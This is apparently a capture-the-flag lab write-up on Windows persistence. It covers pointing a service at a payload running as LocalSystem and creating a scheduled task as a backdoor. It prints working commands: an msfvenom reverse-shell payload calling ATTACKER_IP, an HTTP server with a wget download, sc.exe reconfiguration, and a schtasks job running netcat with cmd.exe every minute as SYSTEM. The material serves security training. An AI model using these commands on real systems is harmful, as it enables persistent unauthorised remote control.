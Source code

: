 There are three things we care about when using a service for persistence:
- The executable (**BINARY_PATH_NAME**) should point to our payload.
- The service **START_TYPE** should be automatic so that the payload runs without user interaction.
- The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:
```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

```
python3 -m http.server 8000
```

```
wget -P "C:\path\to\directory" http://<your-ip-address>:8000/yourfile.exe
```

 Reconfigure "THMservice3" parameters, we can use the following command:
```shell-session
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

Then query the service's configuration again to check if all went as expected:
```shell-session
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

## **==Abusing Scheduled Tasks==**
### Task Scheduler
The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often.
```shell-session
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```
